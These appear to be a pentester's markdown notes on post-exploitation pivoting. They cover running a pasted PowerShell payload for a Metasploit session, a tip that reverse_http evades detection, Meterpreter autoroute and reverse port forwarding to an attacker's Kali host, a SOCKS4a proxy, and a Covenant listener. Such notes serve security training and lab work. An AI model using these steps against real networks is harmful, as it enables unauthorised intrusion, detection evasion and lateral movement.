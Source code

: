 > the **reverse_http** its better than **reverse_tcp** to evade detection


Go to Covenant Shell:
```powershell
powershell <paste the payload>
# this will give a session to metasploit
```

### Routing Functions 
In meterpreter session:
```
ipconfig # to see which route we wanna open
run autoroute -s <192.168.16.0/24>
run autoroute -p # to check the routes
```

### Port Forwarding

> The Traffic sent from inside the network that we dont have access, can be forward to a device that we do have access back to our kali machine.


In meterpreter session:
```bash
portfwd add -R -p 1234 -l 443 -L <kali ip>

# -R = reverse
# -p = port of target machine, doest not matter
# -l = port in our kali
# -L = listening host = kali ip

portfwd  # to show the total active port forwards
ctrl + z # background the session 
```

### SOCKS
```bash
search socks
use auxiliary/server/socks4a
cat /etc/proxychains4.conf > copy the port in the socks4 line
example: socks4 127.0.0.1 9050
set the port we check in proxychains4
exploit -j

jobs
jobs -k <number> = if u want to kill 

portfwd # pay attention to the info
example : <kali ip>:443   0.0.0.0:1234

# Go to covenant & create a listener to interact with that port forward
Listeners > name=Reverse HTTP > BindPort=443 > ConnectPort=1234 > ConnectAddresses=target ip
Create
```
